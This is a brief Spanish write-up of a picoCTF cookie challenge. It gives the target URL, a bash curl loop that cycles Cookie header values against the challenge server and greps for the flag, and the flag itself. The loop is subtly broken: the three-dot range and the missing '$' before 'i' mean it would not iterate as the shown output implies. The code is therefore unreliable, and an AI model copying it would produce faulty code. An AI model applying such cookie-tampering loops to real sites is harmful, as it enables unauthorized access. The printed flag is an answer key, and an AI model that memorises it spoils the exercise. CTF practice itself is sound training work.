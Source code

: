 ## Objetivo de nivel
¿A quién no le gustan las galletas? Trata de encontrar el mejor. [http://mercury.picoctf.net:27177/](http://mercury.picoctf.net:27177/)

## Solución
``` bash
marlon900:~$ for i in {0...20}; do curl -s http://mercury.picoctf.net:27177/check -H "Cookie: name=i"; done | grep picoCTF
	<p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
```
## Notas adicionales


## Bandera
picoCTF{3v3ry1_l0v3s_c00k135_064663be}

## Referencias

